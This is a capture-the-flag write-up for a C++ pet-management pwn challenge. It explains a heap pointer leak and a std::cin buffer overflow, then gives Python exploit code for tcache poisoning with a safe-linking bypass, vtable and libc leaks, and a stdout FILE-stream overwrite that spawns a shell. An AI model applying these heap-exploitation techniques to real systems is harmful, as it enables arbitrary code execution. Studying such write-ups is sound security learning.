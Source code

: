 # Learning OOP
## Description of the challenge
The challenge allows the user to create and manage pets. Pets are represented by C++ classes. Each time the user create a new pet the service allocate a new istance of the class using `new PetType`. The user can allocate up to 10 pet. Pets have an age and a fullness, when the age get bigger than `pet.get_max_age()` or the fullness goes to 0, the pet dies. When a pet die the service frees it using `delete pet`. The program run a loop which allow you to interact with your pets or to create a new one. Each iteration the function `update()` is called. This function age up the pets and decrement the fullness. The fullness can be set up to 20 by feeding the pet. On pet creation the user can set a name for the pet and this should not the change until the pet dies.

## Vtable leak
The vuln of the service are the following:
* Heap leak
* Heap overflow
The first one is due to the following code which run on each pet creation:
```c++
std::cout << "Adopted new pet: " << new_pet << std::endl; // TODO: fix
```
The second one is due to the use of `std::cin` on a C-like buffer. The Pet class implements the pet name in this way:
```c++
protected:
        char name[0x100];
        int age;
        int fullness;
        int status;
```
on pet creation the name is setted using the following method:
```c++
void set_name() {
            std::cout << "Enter name: " << std::endl;
            std::cin >> this->name;
        }
```
P.S. at class creation the name buffer is initialized with "A"
```c++
Animal() {
            memset(this->name, 0x41, sizeof(this->name));
            this->age = 0;
            this->fullness = 10;
            this->status = Status::FULL | Status::WELLRESTED;
        }
```

Using this overflow we can control all the properties of the class. Playing with the fullness it's possible control how they will be set free. Using this primitive we can prepare the tcache:
```py
tcache_pets = []
tcache_pets = Pet.adopt_from_fullnesses([3, 3, 1])
print_addr_list(tcache_pets, name="tcached")
play_pet(12)
```
In this code we allocate 3 pet, the first with fullness 3, same for the second and the third with fullness 1. Now the tcache looks like this:

![tcache from gdb](./tcache1.png)

We can allocate a pet, and from this overflow on the pet at the head of the tcache and poison its metadata (it's possibile to bypass safe linking using the free leak discussed in the previous section)
```py
payload = p32(0x0) + p64(0x121) + p64((tcache_pets[2] + DISPLACEMENT) ^ (tcache_pets[2] >> 12) )
tmp = Pet(fullness=0x3, overflow=payload, status=0x0)
print(f"Overflowing from: {hex(tmp.adopt())}")
```
The idea is to allocate a new pet inside an alredy active one. In this way the vtable of the inner pet is written inside the name file of the outer pet and we can leak it. The value I chose for DISPLACEMENT is 0x40, but all values which allocate the inner pet inside the name of the outer one are possible.

While allocating the inner pet is possible that the top chunk will be broken, so it will be necessary to fix it. By allocating the inner pet we also overwrite the age and the fullness of the outer one, so we need to be carefull to not kill the outer pet immediatly 
```py
spoofed_pets = []
outer_pet = Pet(name=b"B" * 0x100 ,fullness=0xff)
spoofed_pets.append(outer_pet.adopt())

payload = (p32(0x0) + p32(0x3)) * ((0x110 - DISPLACEMENT) // 8) + p64(0xd5e1)
payload = payload + b"B" * (0x100 - len(payload))
inner_pet = Pet(fullness=0x4, name=payload)
spoofed_pets.append(inner_pet.adopt())
```
Now we can leak the address of the vtable of the `inner_pet` by reading the name of `outer_pet`
```py
p.sendline(b"2")
p.recvuntil(b"0. BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB")
vtable_leak = p.recvline()[:-1]
vtableleak = int.from_bytes(vtable_leak, "little")
p.sendline(b"0")
p.recvuntil(b"> ")
```
Is important to maintain control over the pet used to do the overflow, so we can use it again in the future. When I used it to overflow i setted it's fullness such that it died in this moment so I can reallocate it.

## Libc leak
To leak the libc the attack we want to do is similar to the previous one. Before I start I want to recover the chunk used in the previous attack (we have only 10 allocations, it's better to not waste them). To do this we must fix the metadata of the inner pet before it dies. I setted the fullness of the outer pet such that it died in the last interaction, so we can reallocate it and write on the metadata of the inner. After this I let die all the pets.
```py
payload = b"D" * (DISPLACEMENT - 0x18) + (p64(0x0) + p64(0x121) + p64(vtable_leak))
pet_esterno = Pet(name = payload, fullness=0x2)
pet_esterno.adopt()

play_pet(12)
play_pet(12)
```
This is the actual state of the tcache:

![tcache from gdb](./tcache2.png)

It is possible to repeat the previous attack, but this time we want to allocate the overlapping chunks with `DISPLACEMENT = 0` (so they will be the same chunk).

Then we fill the tcache and let die one of the two instance of the overlapping chunk. So this chunk will go to the unsorted bins
```py
payload = p32(0x0) + p64(0x121) + p64(spoofed_pets[0] ^ (spoofed_pets[0] >> 12))
overflow_pet = Pet(fullness=0xe, overflow=payload)
overflow_pet.adopt()


overlapped = Pet(fullness=0xff)
s = overlapped.adopt()
print(f"First overlapping allocation: {hex(s)}")

overlapped = Pet(fullness=12 * 2)
s = overlapped.adopt()
print(f"Second overlapping allocation: {hex(s)}")

# Filling the tcache
Pet.adopt_from_fullnesses([6, 5, 4, 3, 2, 1])
for i in range(5):
    play_pet(12)
```
Be carefull that the overlapped per will be updated two times for interaction.

When one of the two istance get free, it's vtable got overwritten by metadata of the unsorted bins. So the living instance has an invalid vtable and the program will crush at the next `update()`. To avoid this we have to fix it with the next interaction, for this reason I chose the fullness of the pet used to overflow such that it is now at the head of the tcache. We can reallocate it and overflow on the broken vtable to fix it
```py
payload = p32(0x0) + p64(0x121) + p64(vtable_leak)[:-1]
overflow_pet = Pet(overflow=payload, fullness=0xff)
overflow_pet.adopt()
```
Now we are safe. We can leak the main arena from the overlapping chun like we did in the previous section
```py
p.sendline(b"2")
p.recvuntil(b"1. ")
libc_leak = p.recvline()[:-1]
libc_leak = int.from_bytes(libc_leak, "little")
libc_base = libc_leak - 0x203b20
print(f"Libc base: {hex(libc_base)}")
p.sendline(b"12")
p.recvuntil(b"> ")
```

## Spawn the shell
At this point we don't have other ways to leak, so we can't overwrite a return address to execute a ROP chain. It's possible to overwrite a vtable, but we have to spawn a shell with just one gadget. 

![one_gadget](./one_gadget.png)

I tried debugging some call to the vtable and the constraints of the one_gadget seems to not be satisfied. We can't even control the arguments passed to this function because the only argument passed is the address of the calling object. So I decided to get control execution by exploiting file streams. Using the same attack of the previous sections I allocated an object on stdout and overwritten it in the following way:
```py
payload = p64(libc_base + ONE_GADGET_OFFSET)
buffer = Pet(fullness=0xff, name=payload)
buffer = buffer.adopt() + 0x8

tcache_pets = []
payload = b"\x00" * (0xb8) + b"-i\0"
a = Pet(fullness=3, name=payload)
tcache_pets.append(a.adopt())

...

wide_data = libc_base + STDOUT_OFFSET - 0x50
wide_vtable = buffer - 0x68

payload = flat(
    b"\x00" * (0x88),
    libc_base + 0x205710,                       # lock
    wide_vtable,                                # _wide_data->vtable
    b"\x00" * (0xa0 - 0x98),
    wide_data,                                  # _widea_data struct
    b"\x00" * (0xd8 - 0xa8),
    libc_base + WFILE_OVERFLOW_OFFSET - 0x38    # FILE->vtable
)
```
By the debugging this FILE stream exploit I noticed that rax point to an heap address. For this reason I did some strange allocation before writing on stdout. I did that allocations such that the address pointed by rax contains the string "-i\0". The last one_gadget I showed has as constraint that `{"/bin/sh", rax, NULL}` is a valid argv. By passing "-i" /bin/sh called with that argv will spawn an interactive shell. The other constraint are satisfied so I used that one_gadget.

To trigger this attack we don't have to do nothing. After we overwrite stdout at the next call to cout the function `fwrite()` will be called and that will trigger the attack spawning the shell.
